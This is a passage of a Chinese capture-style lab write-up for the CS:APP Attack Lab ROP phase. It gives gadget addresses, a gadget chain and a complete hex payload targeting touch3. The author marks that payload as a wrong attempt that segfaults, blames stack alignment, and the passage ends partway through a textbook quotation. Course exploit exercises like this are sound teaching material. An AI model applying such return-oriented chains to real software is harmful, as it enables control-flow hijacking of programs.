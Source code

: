 我们只能在栈中存储cookie，但不知道栈的位置，只能通过rsp寄存器读取。查表知道该指令只有48 89 e0到48 89 e7；在farm中可以搜到如下函数符合要求：

```
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq 
```

```48 89 e0 c3   mov %rsp，%rax```

而add_xy是%rdi和%rsi相加给%rax。

##### 错误答案

执行完getbuf之后rsi的值为0x31=49。

<img src="./image_attack_lab(target)/image-20240510203203744.png" alt="image-20240510203203744" style="zoom: 67%;" />

因此，执行逻辑应该是

<img src="./image_attack_lab(target)/image-20240510211646149.png" alt="image-20240510211646149" style="zoom: 67%;" />

```
mov %rsp,%rax       #gadget1             #farm中地址 0x401a06
ret 
mov %rax,%rdi        #gadget2              #0x4019c5
ret
lea    (%rdi,%rsi,1),%rax   #gadget3        #0x4019d6
ret
mov %rax,%rdi     #gadget4                  #0x4019c5
ret 
```

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00        /* gadget1 */
c5 19 40 00 00 00 00 00        /* gadget2 */
d6 19 40 00 00 00 00 00        /* gadget3 */
c5 19 40 00 00 00 00 00        /* gadget4 */
fa 18 40 00 00 00 00 00        /* touch3 */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00                               /* 偏移0x31=49 */ 
35 39 62 39 39 37 66 61        /* cookie */
```

gdb调试时发现有如下错误：Program received signal SIGSEGV, Segmentation fault.

使用上述方法在执行到touch3时，sval指向是没问题的，进入hexmatch后，在执行sprintf函数时会报错。

猜测可能是因为：64位的CPU每个时刻周期可以读取8个字节，根据内存对齐，（字符串数组名是一个指针），指针指向的栈中地址应该是8的倍数？即上述偏移0x31不满足要求。网上的答案都是0x48作为偏移。

教材p189页：

==许多计算机系统对基本数据类型的合法地址做了一些限制，要求某种类型对象所在的地址必须是某个值K的倍数，K的具体如下图所示。==

|  K   |       类型        |
| :--: | :---------------: |
|  1   |       char        |
|  2   |       short       |
```